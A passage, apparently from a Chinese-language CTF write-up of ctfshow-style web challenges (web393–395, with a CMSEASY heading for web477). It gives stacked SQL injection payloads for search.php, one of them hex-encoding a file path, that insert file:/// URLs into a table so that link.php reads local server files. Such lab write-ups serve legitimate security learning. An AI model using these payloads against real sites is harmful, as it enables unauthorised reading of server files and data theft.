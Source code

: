 ```
payload:
search.php?title=1';insert into link values(10,'a','file:///flag');（在search.php页面存在堆叠注入）
```

然后访问 `link.php?id=10` 就能得到flag

### web394、395

```
payload:

search.php?title=1';insert into link values(10,'a',0x66696c653a2f2f2f7661722f7777772f68746d6c2f616c73636b6466792f636865636b2e706870); 

16进制为file:///var/www/html/alsckdfy/check.php

然后访问link.php?id=10
```

# CMS

## web477

`CMSEASY` 

<img src=".\图片\Snipaste_2023-08-09_11-54-59.png" alt="Snipaste_2023-08-09_11-54-59" style="zoom:80%;" />
